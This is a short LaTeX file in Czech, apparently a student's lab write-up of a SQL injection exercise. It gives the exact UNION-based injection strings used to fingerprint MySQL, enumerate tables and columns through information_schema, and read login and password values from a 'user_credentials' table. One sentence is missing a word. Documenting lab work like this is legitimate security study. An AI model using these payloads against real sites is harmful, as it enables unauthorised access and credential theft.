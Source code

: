 \documentclass[a4paper,10pt]{article}
\begin{document}
\begin{itemize}
	\item Zjistil jsem, že používaná databáze je MySQL (z chybové hlášky
	\texttt{Warning: mysql\_fetch\_array(): supplied argument is not a valid
		MySQL result resource}) a že hodnota parametru \texttt{tt} v URL není
		 před použitím v SQL dotazu: \\[0.3cm]
		\verb!?tt='!

	\item Zjistil jsem si počet sloupců tabulky, ze které se získávají vstupní data (postupně
		jsem zkoušel čísla od jedničky, až to nevyhazovalo chybu; tabulka má 5 sloupců).
		\texttt{\%20} je mezera za pomlčkami, která tam musí být -- jinak by se nejednalo o platný komentář. \\[0.3cm]
		\verb!?tt=' union select 1,2,3,4,5 --%20!

	\item Zjistil jsem si názvy tabulek v databázi z MySQL tabulky
		\texttt{information\_schema.tables} (objevil jsem dvě -- \texttt{my\_articles} a
		\texttt{user\_credentials}): \\[0.3cm]
		\verb!?tt=' union select 1,table_name,3,4,5 from information_schema.tables limit 28,1--%20! \\
		\verb!?tt=' union select 1,table_name,3,4,5 from information_schema.tables limit 29,1--%20!

	\item Zjistil jsem si názvy sloupců v tabulce \texttt{user\_credentials}, která by měla
		obsahovat tajnou informaci (tabulka má dva sloupce -- \texttt{login} a \texttt{passwd}): \\[0.3cm]
		\verb!?tt=' union select 1,column_name,2,3,4 from information_schema.columns where ! \\
		\verb!table_name = 'user_credentials' limit 0,1--%20! \\
		\verb!?tt=' union select 1,column_name,2,3,4 from information_schema.columns where ! \\
		\verb!table_name = 'user_credentials' limit 1,1--%20!

	\item Zjistil jsem tajnou informaci příslušející k mému loginu: \\[0.3cm]
		\verb!?tt=' union select 1,login,passwd,3,4 from user_credentials where ! \\
		\verb!login like '%xzemek02%'--%20!
\end{itemize}
\end{document}
